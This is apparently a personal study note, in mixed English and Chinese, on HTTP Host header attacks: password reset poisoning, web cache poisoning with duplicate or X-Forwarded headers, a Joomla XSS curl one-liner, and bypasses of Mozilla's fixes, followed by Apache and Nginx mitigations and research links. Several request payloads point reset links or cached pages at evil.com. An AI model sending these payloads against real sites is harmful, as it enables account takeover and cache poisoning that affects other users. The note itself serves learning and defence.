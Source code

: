 ## HTTP Host header attacks




### 1.1 Password reset and web-cache poisoning

The second technique abuses alternative channels like password reset emails where the poisoned content is delivered directly to the target

The vulnerability was that url::abs_site used the Host header provided by the person requesting the reset, so an attacker could trigger password reset emails poisoned with a hijacked link by tampering with their Host header:

	> POST /password/reset HTTP/1.1
	> Host: evil.com
	> ...
	> csrf=1e8d5c9bceb16667b1b330cc5fd48663&name=admin


如图


In other cases, the Host may be URL-decoded and placed directly into the email header allowing mail header injection. Using this, attackers can easily hijack accounts by BCCing password reset emails to themselves

### 1.2 web-cache poisoning


manipulating caching systems into storing a page generated with a malicious Host and serving it to others.

The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.


to persuade a cache to serve our poisoned response to someone else we need to create a disconnect between the host header the cache sees, and the host header the application sees.

In the case of the popular caching solution Varnish, this can be achieved using duplicate Host headers. Varnish uses the first host header it sees to identify the request, but Apache concatenates all host headers present and Nginx uses the last host header[1]. This means that you can poison a Varnish cache with URLs pointing at evil.com by making the following request:

	> GET / HTTP/1.1
	> Host: example.com
	> Host: evil.com

Joomla writes the Host header to every page without HTML-encoding it, and its cache is entirely oblivious to the Host header. Gaining persistent XSS on the homepage of a Joomla installation was as easy as:

	curl -H "Host: cow\"onerror='alert(1)'rel='stylesheet'" http://example.com/ | fgrep cow\"

This will create the following request:
	
	> GET / HTTP/1.1
	> Host: cow"onerror='alert(1)'rel='stylesheet'

The response should show a poisoned <link> element:

	<link href="http://cow"onerror='alert(1)'rel='stylesheet'/" rel="canonical"/>




**cache poisoning tags:**

X-Forwarded-Host        eg:      X-Forwarded-Host: evil.com

Host   					eg：	     Host: addons.mozilla.org:@passwordreset.net


X-Forwarded-Port        eg:

	GET /index.php?dontpoisoneveryone=1 HTTP/1.1
	Host: www.hackerone.com
	X-Forwarded-Port: 123
	
	HTTP/1.1 302 Found
	Location: https://www.hackerone.com:123/

X-Forwarded-SSL

Transfer-Encoding

Range: bytes=cow

Accept, Upgrade, Origin, Max-Forwards ......


<br/>

<br/>

This is simple to exploit using the ever-useful http://username:password@domain.com syntax:

Host: 域名:@域名2

一种绕过手段

会跳转第二个

识别机制就是这样的，匹配到@就会跳转后面的域名   跟服务器无关  任何域名都这样

patch: 使用黑名单来过滤@和其他一些字符

bypass: 由于密码重置电子邮件以纯文本而不是HTML格式发送，因此空格会将URL分为两个单独的链接：

	> POST /en-US/firefox/users/pwreset HTTP/1.1
	> Host: addons.mozilla.org: www.securepasswordreset.com

patch: Host标头中的端口规范只能包含数字，从而完全防止了基于端口的攻击

bypass: [the arguably ultimate authority on virtual hosting, RFC2616](https://www.ietf.org/rfc/rfc2616.txt)

	5.2 The Resource Identified by a Request
	[...]
	If Request-URI is an absoluteURI, the host is part of the Request-URI. Any Host header field value in the request MUST be ignored.

payload:

	> POST https://addons.mozilla.org/en-US/firefox/users/pwreset HTTP/1.1
	> Host: evil.com

This request results in a SERVER_NAME of addons.mozilla.org but a HTTP['HOST'] of evil.com. Applications that use SERVER_NAME rather than HTTP['HOST'] are unaffected by this particular trick, but can still be exploited on common server configurations. 

如果未ServerName指定，则服务器尝试通过对IP地址执行反向查找来推断主机名。如果没有在中指定端口ServerName，则服务器将使用传入请求中的端口。为了获得最佳的可靠性和可预测性，您应该使用ServerName指令指定一个明确的主机名和端口。

patch:  by enforcing a whitelist of allowed hosts

You need to set UseCanonicalName directive to on in the <VirtualHost> entry of the ServerName in httpd.conf 

	<VirtualHost *>
	    ServerName example.com
	    UseCanonicalName on
	</VirtualHost> 

可以通过在Apache（指令）和Nginx（指令）下创建一个虚拟虚拟主机来实现，该虚拟虚拟主机可以捕获带有无法识别的主机标头的所有请求。也可以在Nginx下通过指定非通配符SERVER_NAME来完成，而在Apache下通过使用非通配符serverName并打开  UseCanonicalName  指令来完成。我建议尽可能使用两种方法。


Further research

* More effective / less inconvenient fixes
* Automated detection
* Exploiting wildcard whitelists with XSS & window.history
* Exploiting multipart password reset emails by predicting boundaries
* Better cache fuzzing (trailing Host headers?)




## 参考资料

[Practical HTTP Host header attacks](https://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html)

[Responsible denial of service with web cache poisoning](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)

https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

https://portswigger.net/research/practical-web-cache-poisoning


挑战 https://hackxor.net/mission?id=8

https://portswigger.net/research/bypassing-web-cache-poisoning-countermeasures

https://www.youtube.com/watch?v=j2RrmNxJZ5c

+ ids rules 3条




## Web Cache Deception Attack

是一种与缓存投毒不同的攻击方式

https://omergil.blogspot.com/2017/02/web-cache-deception-attack.html